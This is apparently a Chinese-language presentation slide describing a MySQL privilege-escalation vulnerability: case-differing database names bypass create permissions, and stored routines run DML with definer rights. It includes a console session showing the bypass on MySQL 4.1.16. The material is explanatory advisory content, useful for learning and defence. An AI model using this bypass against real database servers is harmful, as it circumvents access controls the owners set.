

# Mysql数据库
MySQL权限提升及安全限制绕过漏洞
在MySQL上，拥有访问权限但无创建权限的用户可以创建与所访问数据库仅有名称字母大小写区别的新数据库。成功利用这个漏洞要求运行MySQL的文件系统支持区分大小写的文件名。 此外，由于在错误的安全环境中计算了suid例程的参数，攻击者可以通过存储的例程以例程定义者的权限执行任意DML语句。成功攻击要求用户对所存储例程拥有EXECUTE权限
1、创建数据库
以下为引用的内容： $ mysql -h my.mysql.server -u sample -p -A sample
Welcome to the MySQL monitor. Commands end with ; or \g.
Your MySQL connection id is 263935 to server version: 4.1.16-standard
mysql> create database another;
ERROR 1044: Access denied for user 'sample'@'%' to database 'another'
mysql> create database sAmple;
Query OK, 1 row affected (0.00 sec)